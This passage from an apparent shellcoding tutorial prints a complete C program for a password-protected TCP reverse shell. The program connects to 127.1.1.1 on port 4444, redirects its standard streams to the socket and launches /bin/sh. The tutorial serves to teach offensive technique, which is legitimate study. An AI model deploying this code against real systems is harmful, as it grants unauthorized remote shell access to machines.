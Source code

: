 The whole `C` program is the following:

```c
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <stdlib.h>

int main(int argc, char **argv)
{

	char *p = "Password";
	int length = strlen(p);

	int sockfd = socket(AF_INET, SOCK_STREAM, 0);

	struct sockaddr_in address = {
		.sin_family = AF_INET,
		.sin_port = htons(4444),
		.sin_addr = inet_addr("127.1.1.1")
	};

	connect(sockfd, (struct sockaddr*) &address, sizeof(address));

	dup2(sockfd, 0);
        dup2(sockfd, 1);
        dup2(sockfd, 2);

	char pass[64];
	read(sockfd, pass, 64);
	
	if (strncmp(pass, p, length) == 0)
	{
		execve("/bin/sh", NULL, NULL);
	}
	else
	{
		exit(-1);
	}
	
	return 0;
}
```



> **Syscall Arguments**
>
> The arguments and their values for the syscalls will be explained later in the creation of the TCP Reverse Shell in Assembly.
{: .prompt-warning }


In order to prove that the Reverse Shell is working we have to compile the `C` program using the GNU Compiler (`gcc`):
